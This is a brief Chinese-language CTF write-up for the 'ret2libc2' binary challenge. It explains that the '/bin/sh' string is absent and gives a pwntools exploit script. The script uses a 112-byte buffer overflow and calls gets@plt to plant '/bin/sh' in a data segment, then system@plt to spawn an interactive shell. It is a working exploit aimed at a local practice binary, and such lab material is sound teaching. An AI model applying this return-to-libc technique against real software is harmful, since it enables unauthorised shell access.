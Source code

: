 # ret2libc2

检查程序安全保护

![image-20240424175359874](图片/image-20240424175359874.png)

该题与ret2libc1相似，知识没了/bin/sh字符串，我们需要自己读取字符串

payload如下

```python
from pwn import *

sh = process('./ret2libc2')

#system跳转地址
system_plt = 0x8048490
#gets跳转地址
gets_plt = 0x8048460
#接受字符串/bin/sh的地址 随便找一块数据段，以0结尾
sh_addr = 0x804a100

payload = flat([b'a'*112,gets_plt,system_plt,sh_addr,sh_addr])

sh.sendline(payload)
sh.sendline(b'/bin/sh')

sh.interactive()
```

